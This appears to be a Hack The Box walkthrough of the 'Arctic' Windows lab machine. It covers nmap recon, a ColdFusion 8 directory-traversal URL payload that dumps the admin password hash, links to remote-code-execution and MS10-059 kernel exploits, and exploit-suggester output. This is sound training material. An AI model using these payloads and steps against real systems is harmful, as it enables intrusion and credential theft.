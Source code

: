 ```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-04 09:49 CDT
Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 56.41% done; ETC: 09:50 (0:00:29 remaining)
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 56.82% done; ETC: 09:50 (0:00:28 remaining)
Nmap scan report for 10.129.93.22
Host is up (0.0082s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```
## Exploit
[CVE-2010-2861 - directory traversal](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2010-2861)
`http://10.129.93.22:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

admin hash `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`

![](Images/{16B8CBA6-FFF6-4FB7-88C2-1BE9EA943574}.png)

Hash is already dumped
![](Images/{631208C4-03F8-45AD-B563-50400F74F291}.png)

[Adobe ColdFusion 8 - Remote Command Execution | cfm/webapps/50057.py](https://www.exploit-db.com/exploits/50057)

Update system information in payload
![](Images/{7FD009FA-B226-434F-8FED-29CD4B0D8465}.png)
![](Images/{BB5A311C-273A-42C7-8F23-8F7A565A767E}.png)
Shell obtained
![](Images/{F0048586-2F50-41D2-90D2-70D8B795DC3C}.png)
![](Images/{9CED4D39-68D3-4115-9CAD-7A0A6B666602}.png)
Can also pop a shell with metasploit `windows/http/coldfusion_fckeditor`
## Priv Esc
### System Info
```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          6/4/2025, 1:42:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.057 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.228 MB
Virtual Memory: In Use:    1.057 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.93.22
```

![](Images/{2EEC5AE2-CA80-44FB-A8C9-E983B2999C3F}%201.png)
SeImpersonatePriv

Run local-exploit-suggester
`python2 exploit-suggester.py --database 2025-04-16-mssb.xls --systeminfo sysinfo.txt`
```
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
[Chimichurri-MS10-059](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Source/Chimichurri.ncb)
Transfer the file on over
![](Images/Pasted%20image%2020250416211358.png)
Slap in the options and you are good to go
![](Images/Pasted%20image%2020250416211520.png)
![](Images/Pasted%20image%2020250416211558.png)
